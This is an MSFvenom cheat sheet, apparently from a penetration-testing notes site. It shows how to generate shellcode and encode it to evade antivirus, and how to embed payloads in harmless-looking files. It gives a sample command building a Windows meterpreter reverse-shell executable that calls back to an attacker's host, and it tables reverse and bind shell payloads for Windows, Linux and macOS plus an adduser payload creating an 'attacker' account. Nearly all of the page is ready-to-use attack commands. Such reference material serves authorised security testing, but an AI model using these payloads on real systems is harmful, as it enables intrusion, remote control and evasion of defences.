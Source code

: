 # MSFvenom

For generation of payload shellcode and encoder for AV evasion.

A sample of MSFvenom command to generate shellcode of the bind\_tcp payload as below:

`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python`

Architecture: `-a`

Platform: `--platform`

Payload to be use: `-p`

Encoding \(for AV evasion, often `x86/shikata_ga_nai` \): `-e`

Embed in non-malicious file by using a template: `-x`

Number of times to encode the payload: `-i`

Output format: `-f`

Help: `-h`

Variable \(default value is `buf`\): `-v`

Avoid bad character \(such as `'\x00'`\): `-b`

**List of Available Platform:**

```text
Cisco or cisco
OSX or osx
Solaris or solaris
BSD or bsd
OpenBSD or openbsd
hardware
Firefox or firefox
BSDi or bsdi
NetBSD or netbsd
NodeJS or nodejs
FreeBSD or freebsd
Python or python
AIX or aix
JavaScript or javascript
HPUX or hpux
PHP or php
Irix or irix
Unix or unix
Linux or linux
Ruby or ruby
Java or java
Android or android
Netware or netware
Windows or windows
mainframe
multi
```

**List of Available formats:** `-help-format`

> asp, aspx, aspx-exe, dll, **elf**, elf-so, **exe**, **exe-only**, exe-service, exe-small,
>
> hta-psh, loop-vbs, **macho**, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection,
>
> psh-cmd, vba, vba-exe, vba-psh, vbs, war
>
> Transform formats
>
> bash, c, csharp, dw, dword, hex, java, js\_be, js\_le, num, perl, pl,
>
> powershell, ps1, py, python, raw, rb, ruby, sh,
>
> vbapplication, vbscript

Typical payloads Sample command:

> msfvenom -p windows/meterpreter/reverse\_tcp LHOST=\(IP Address\) LPORT=\(Your Port\) -f exe &gt; reverse.exe

Windows \(`-f exe`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `windows/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `windows/meterpreter/bind_tcp` | RHOST, LPORT |
| Create User | `windows/adduser USER=attacker PASS=attacker@123` |  |
| CMD |  | LHOST, LPORT |
| Encoder | `-e shikata_ga_nai` |  |

Linux \(`-f elf`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `linux/x86/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `linux/x86/meterpreter/bind_tcp` | RHOST, LPORT |
| Generic Shell | `generic/shell_bind_tcp` | RHOST, LPORT |

Mac OS \(`-f macho`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `osx/x86/shell_reverse_tcp` | LHOST, LPORT |
| Bind Shell | `osx/x86/shell_bind_tcp` | RHOST, LPORT |

